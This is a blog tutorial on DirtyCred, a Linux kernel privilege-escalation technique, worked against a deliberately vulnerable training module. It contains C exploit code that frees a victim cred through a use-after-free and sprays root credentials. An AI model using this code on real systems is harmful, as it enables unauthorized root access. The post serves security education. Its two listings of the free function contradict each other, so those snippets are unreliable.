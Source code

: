 ```yaml
---
title: Linux Kernel Exploitation - DirtyCred
date: 2025-04-29
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain DirtyCred, a universal and data-only exploitation technique that allows us to escalate privileges without a write primitive. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/dirty-cred) beforehand.

## Analysis
The vulnerable LKM provides three commands: `CMD_ALLOC`, `CMD_READ`, and `CMD_FREE`. These commands are used to allocate, read from, and free objects defined as follows:
```c
#define OBJ_SIZE    0xc0

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` internally uses `kmem_cache_zalloc`. This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}
```
Also, note that `kfree` is used instead of `kmem_cache_free` in `obj_free`. This is intentional, as we will use it later to free cred objects:
```c
static long obj_free(int id) {
    kfree(objs[id]);
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. By performing cross-cache attack explained in the [previous post](https://r1ru.github.io/posts/1/), we can overlap victim objects with arbitrary kernel objects. However, we only have a read primitive, so it is difficult to control RIP. Therefore, in this post, we will take a data-only approach using DirtyCred.

## DirtyCred
The main idea of DirtyCred is to swap non-root credentials with root credentials. In this post, we target `struct cred`, which is allocated from a dedicated cache called cred. By performing cross-cache attack, we can overlap victim objects with cred objects. Since we can free victim cred objects (via `obj_free`), by spraying root cred objects, we can achieve root privileges.

## Exploitation
The initial steps are the same as in the [previous post](https://r1ru.github.io/posts/1/#exploitation). The difference is in the fourth step, where we allocate a large number of cred objects:
```c
char stack[NUM_CRED_SPRAY][0x1000];
for (int i = 0; i < NUM_CRED_SPRAY; i++) {
    assert(clone(try_read_flag, &stack[i][0xfff], CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND, NULL) != -1);
}
```
Here, we use `clone` with some flags to allocate cred objects with low noise. This technique was discovered by willsroot. See their [blog post](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html) for more details.

`try_read_flag` is defined as follows. It waits for the atomic variable, `try` to be true, checks if it has root previleges, and then reads the flag:
```c
int try_read_flag(void *arg) {
    char flag[0x10] = {};
    int fd;

    while(atomic_load(&try) != true) {
        sleep(1);
    }

    if (geteuid() == 0) {
        fd = open("/dev/sdb", O_RDONLY);
        assert(fd != -1);
        assert(read(fd, flag, 0x10) != -1);
        printf("[+] Flag: %s\n", flag);
        atomic_store(&win, true);
        exit(0);
    } else {
        atomic_fetch_add(&num_failed, 1);
        exit(0);
    }   
}
```
Next, we locate the victim cred object and free it:
```c
int victim = -1;
struct cred cred = {};
for (int i = 0; i < num_sprary; i += objs_per_slab * 2) {
    for (int j = i; j < i + objs_per_slab; j++) {
        obj_read(j, (char *)&cred, sizeof(cred));
        if (cred.uid == getuid() && cred.euid == geteuid()) {
            victim = j;
            printf("[+] Freeing the victim object: id = %d\n", victim);
            obj_free(victim);
        }
    }
}
if (victim == -1) {
    puts("[-] Failed to locate the victim objects");
    exit(1);
}
```
Finally, we spray root cred objects, which causes the victim cred object freed in the previous step to be swapped with a root cred object:
```c
for (int i = 0; i < NUM_ROOT_CRED_SPRAY; i++) {
    int pid = fork();
    if (pid == 0) {
        char *argv[] = {"/bin/su", NULL};
        execve(argv[0], argv, NULL);
    }
}
sleep(1);

puts("\n[*] Attempting");
atomic_store(&try, true);
```
By running this exploit, we can see the flag:

![win](/assets/img/posts/2025-04-29-3/win.png)

## References
1. Zhenpeng Lin, Yuhang Wu, and Xinyu Xing. 2022. DirtyCred: Escalating Privilege in Linux Kernel. In Proceedings of the 2022 ACM SIGSAC Conference on Computer and Communications Security (CCS '22). Association for Computing Machinery, New York, NY, USA, 1963–1976. https://doi.org/10.1145/3548606.3560585
2. willsroot. 2022. Reviving Exploits Against Cred Structs - Six Byte Cross Cache Overflow to Leakless Data-Oriented Kernel Pwnage. https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html